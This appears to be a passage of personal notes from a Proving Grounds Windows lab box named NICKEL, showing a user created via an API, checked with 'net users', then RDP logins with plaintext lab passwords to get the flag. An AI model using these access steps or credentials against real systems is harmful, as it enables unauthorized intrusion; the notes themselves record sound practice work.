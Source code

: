 
Send these via api 

![[PG/Windows/attachments/Pasted image 20250709150832.png]]

Check new user 

```
net users
```

![[PG/Windows/attachments/Pasted image 20250709150909.png]]

# RDP in 

```
xfreerdp /cert:ignore /dynamic-resolution +clipboard /u:'api' /p:'Dork123!' /v:NICKEL
```


Get the flag 

![[PG/Windows/attachments/Pasted image 20250709151001.png]]

Maybe this could help

```
xfreerdp3 /cert:ignore /dynamic-resolution +clipboard /u:'ariah' /p:'NowiseSloopTheory139' /v:NICKEL /sec:rdp
```

